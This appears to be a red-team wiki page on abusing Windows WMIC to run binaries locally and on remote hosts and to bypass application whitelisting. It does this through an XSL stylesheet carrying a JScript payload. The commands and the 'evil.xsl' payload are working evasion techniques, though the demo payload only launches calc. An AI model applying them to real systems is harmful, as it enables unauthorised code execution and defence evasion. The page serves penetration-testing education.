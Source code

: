 # WMIC

## Theory

Windows Management Instrumentation (WMIC) is a Windows command-line utility that manages Windows components. People found that WMIC is also used to execute binaries for evading defensive measures. 
We can try to execute binary or XSL file that contain jscript payload with WMIC.

## Practice

{% tabs %}
{% tab title="Binary" %}

Execute local binary (calc.exe)
```bash
wmic.exe process call create calc
```

Execute binary on remote system (evil.exe)
```bash
wmic.exe /node:"192.168.0.1" process call create "evil.exe"
```
{% endtab %}

{% tab title="XSL" %}
Another application whitelist bypassing technique discovered by Casey @subTee, similar to squiblydoo

Define the XSL file containing the jscript payload:
```bash
#evil.xsl
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("calc");
	]]> </ms:script>
</stylesheet>
```

Invoke wmic command and specify /format pointing to the evil.xsl:
```bash
wmic os get /FORMAT:"evil.xsl"
```


Execute binary on remote system (evil.exe)
```bash
wmic.exe /node:"192.168.0.1" process call create "evil.exe"
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://tryhackme.com/room/livingofftheland" %}
{% embed url="https://www.ired.team/offensive-security/code-execution/application-whitelisting-bypass-with-wmic-and-xsl" %}
